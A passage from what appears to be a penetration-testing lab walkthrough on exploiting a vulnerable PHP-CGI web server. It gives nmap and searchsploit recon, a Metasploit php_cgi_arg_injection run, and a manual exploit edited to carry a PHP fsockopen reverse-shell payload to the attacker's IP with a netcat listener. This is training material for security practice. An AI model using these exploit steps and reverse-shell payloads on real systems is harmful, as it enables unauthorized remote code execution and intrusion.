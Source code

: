 ```shell
ftp <target_IP> 21
# Use the credentials
```

### 7.3. Targeting PHP

PHP is a widely-used server-side scripting language for web development. Its popularity and extensive use in web applications make it a common target for penetration testers.

**Objective:** Exploit the vulnerable PHP running on the target web server and gain a meterpreter session.

```shell
ping -c 1 <target_IP>
nmap -sV -sC -p 80 <target_IP>
# As shown in the following screenshot, the Nmap scan reveals that Apache 2.2.8 is running on port 80.

# Check the PHP version via web browser 
<target_IP>/phpinfo.php

searchsploit php cgi
# As shown in the following screenshot, the Searchsploit search reveals quite a few exploits, however, one stands out as a potentially useful exploit -- PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection

service postgresql start && msfconsole
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS <target_IP>
exploit
```

**Different approach**

```shell
# Step 1: Download the exploit using SearchSploit
searchsploit -m 18836.py # Copy exploit to current directory
vim 18836.py # Open the script to review

# Step 2: Run the original exploit to confirm code execution
python2 18836.py <target_IP> 80  # You may see 'phpinfo' output, confirming RCE is possible

# Step 3: Modify the exploit to include a reverse shell payload
vim 18836.py
# Replace the payload with a reverse shell (insert your Kali IP)
# Try file descriptor 3 first
pwn_code = """<?php $sock=fsockopen("<kali_IP>", 1234); exec("/bin/sh -i <&3 >&3 2>&3"); ?>"""
:wq # Save and exit

# Step 4: Start a Netcat listener in a new terminal
nc -nvlp 1234 # Listen for the reverse shell on port 1234

# Step 5: Run the exploit again to trigger the reverse shell
python2 18836.py <target_IP> 80

# Step 6: If no shell appears, change the file descriptor (e.g., to 4)
vim 18836.py
pwn_code = """<?php $sock=fsockopen("<kali_IP>", 1234); exec("/bin/sh -i <&4 >&4 2>&4"); ?>"""
:wq # Save and exit

# Restart the listener and run the exploit again
nc -nvlp 1234
python2 18836.py <target_IP> 80

# Step 7: Once connected, upgrade the shell if needed
/bin/bash -i # Get an interactive shell
```